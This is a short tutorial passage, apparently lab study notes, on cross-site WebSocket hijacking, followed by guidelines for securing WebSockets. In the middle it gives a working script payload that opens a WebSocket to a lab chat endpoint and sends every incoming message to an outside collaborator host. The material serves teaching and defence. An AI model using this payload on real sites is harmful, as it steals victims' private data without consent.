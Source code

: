 If the WebSocket handshake request is vulnerable to CSRF, then an attacker's web page can perform a cross-site request to open a WebSocket on the vulnerable site. What happens next in the attack depends entirely on the application's logic and how it is using [WebSockets](https://portswigger.net/web-security/websockets). The attack might involve:
- Sending WebSocket messages to perform unauthorized actions on behalf of the victim user.
- Sending WebSocket messages to retrieve sensitive data.
- Sometimes, just waiting for incoming messages to arrive containing sensitive data.

An example of this attacks is to create a WebSocket connection using XSS for example, and for each message sent in the connection, exfiltrate the data in DNS requests. A payload that does that is the following:
```html
<script>
    var ws = new WebSocket('wss://0a4e009304fbf86f843a63ad00bb0055.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://3x1i317dm1sdvjx9uqsbfihs1j7av0jp.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
# How to secure a WebSocket connection
To minimize the risk of security vulnerabilities arising with WebSockets, use the following guidelines:
- Use the `wss://` protocol (WebSockets over TLS).
- Hard code the URL of the WebSockets endpoint, and certainly don't incorporate user-controllable data into this URL.
- Protect the WebSocket handshake message against CSRF, to avoid cross-site WebSockets hijacking vulnerabilities.
- Treat data received via the WebSocket as untrusted in both directions. Handle data safely on both the server and client ends, to prevent input-based vulnerabilities such as SQL injection and [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting).